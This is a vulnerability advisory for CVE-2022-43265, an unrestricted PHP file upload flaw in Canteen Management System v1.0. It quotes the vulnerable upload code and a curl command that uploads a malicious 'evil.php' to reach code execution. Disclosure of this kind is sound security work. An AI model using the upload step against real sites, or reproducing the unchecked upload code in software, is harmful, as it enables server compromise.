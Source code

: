 ```yaml
---
cve: "CVE-2022-43265"
title: "Unrestricted File Upload in Canteen Management System"
images: [/images/cve-mitre.png]
date: 2022-10-10
tags:
- cve
- file upload
---
```

An arbitrary file upload vulnerability in the component `/pages/save_user.php` of Canteen Management System v1.0 allows attackers to execute arbitrary code via a crafted PHP file.
<!--more-->

- mitre: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-43265
- project page: https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

<hr />

**Description:**  
Canteen Management System allows unrestricted file upload. An attacker user could craft a `multipart/form-data` request to upload a malicious PHP script.
This could lead to a OS Command Execution.

**Details:**  
File: `/assets/pages/save_user.php`  
```php
$image = $_FILES['image']['name'];
$target = "../uploadImage/Profile/".basename($image);

if (move_uploaded_file($_FILES['image']['tmp_name'], $target)) {
    $msg = "Image uploaded successfully";
}else{
    $msg = "Failed to upload image";
}
```

**Step to reproduce:**  
```bash
curl -I -F "image=@evil.php" "http://www.example.com/assets/pages/save_user.php"
```

The server replies with a status code `500` due to all PHP errors in the code but the file is successfully uploaded.


**PoC:**  
![cve-2022-9999](/images/cve-2022-43265.png)
